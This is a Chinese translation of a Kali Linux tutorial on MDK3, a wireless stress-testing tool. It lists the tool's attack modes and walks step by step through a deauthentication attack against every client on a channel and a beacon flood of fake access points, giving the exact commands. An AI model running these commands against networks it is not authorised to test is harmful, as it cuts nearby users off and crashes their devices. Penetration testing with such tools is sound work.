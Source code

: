 # 使用 MDK3、信标泛洪和解除认证攻击进行 WiFi 压力测试。

> 原文：<https://kalilinuxtutorials.com/mdk3/>

[![](img/744fa22aa5b7982ed4e951358d17ba9b.png)](https://i2.wp.com/kalilinuxtutorials.com/wp-content/uploads/2015/09/mdk-feature.jpg?fit=1500%2C1000&ssl=1)

MDK3 是一个概念验证工具。它用于压力测试 802.11 网络(wifi)。它包括我们可以用来进行测试的各种方法。一些主要方法是信标泛洪、去认证、WPA- dos 等。在 pentests 中，mdk 用于测试具有 802.11 实现的网络基础设施，并确保符合标准。

## **选项**

```
Syntax : mdk3 <interface> <testmode> <test-options>
```

```
Mdk3 –help <test mode> : for test options

TEST MODES:

b   - Beacon Flood Mode

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

a   - Authentication DoS mode

Sends authentication frames to all APs found in range. Too much clients freeze or reset some APs.

p   - Basic probing and ESSID Bruteforce mode

Probes AP and check for answer, useful for checking if SSID has been correctly decloaked or if AP is in your adaptors sending range SSID Brute-forcing is also possible with this test mode.

d   - Deauthentication / Disassociation Amok Mode

Kicks everybody found from AP 
m   - Michael shutdown exploitation (TKIP)

Cancels all traffic continuously 
x   - 802.1X tests

w   - WIDS/WIPS Confusion

Confuse/Abuse Intrusion Detection and Prevention Systems 
f   - MAC filter bruteforce mode

This test uses a list of known client MAC Adresses and tries to authenticate them to the given AP while dynamically changing its response timeout for best performance. It currently works only on APs who deny an open authentication request properly 
g   - WPA Downgrade test

Deauthenticates Stations and APs sending WPA encrypted packets. With this test you can check if the sysadmin will try setting his network to WEP or disable encryption. 
```

* * *

## **实验 1:取消通道中所有客户端的身份验证**

在本实验中，我们尝试拒绝向一个通道中的所有客户端提供服务。这被称为去认证测试。

**步骤 1** :首先我们必须确保监视器接口已启用。

```
Command: iwconfig
```

这显示了所有的无线接口及其无线属性。

[![mdk3](img/0221562f19d101d3726ce3ab008bbb48.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-1/#main)

Wireless Devices & Properties

**第二步**:启动监控界面

```
Command : airmon-ng start wlan0<your interface here>
```

[![mdk3](img/05bad154c6e4426d4733a5db8ae89cce.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-2/#main)

Starting monitor Interface.

**第三步**:查看附近所有的接入点&确定我们的目标。

```
Command: airodump-ng mon0
```

这将显示所有 wifi 接入点，包括附近隐藏的接入点。

[![mdk3](img/36fd9a94a1bc9cf4ada523aabc93cef3.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-3/#main)

Starting Airodump & Selecting Target

从中我们获得了很多信息。接入点、mac IDs、客户端、每个 AP 广播的信道等。这里只有一个 AP 是我们的目标。我们可以从上面的图像中看到，它正在第 6 频道运行。所以让我们对第六频道发起攻击。

```
Command: mdk3 mon0 d -c 6
```

[![mdk3](img/a36c38f95a3d41da947ac67a7410e4e0.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-4/#main)

De-authentication Attack

* * *

## **实验 2:信标泛滥**

本实验的特点是以极快的速度在不同的 SSIDs(广播名称)中创建假接入点。这可能会导致某些客户端或无线中继接入点或范围扩展器等崩溃。

**步骤 1** :确保监控界面在您的系统中运行。请参见之前的实验。

**第二步**:发动攻击

```
Command : mdk3 mon0 b
```

[![mdk3](img/5767b591ae4721cf818ff5593af8389b.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-5/#main)

Beacon Flood Attack

这是一部安卓手机，展示了我们制作的所有接入点。它很可能会崩溃

[![mdk3](img/f0856a7967b7668950a6af2b051bb361.png)](http://kalilinuxtutorials.com/wl/mdk3/attachment/mdk3-6/#main)

Fake APs appearing on nearby devices.

参考:[http://tools.kali.org/wireless-attacks/mdk3](http://tools.kali.org/wireless-attacks/mdk3)
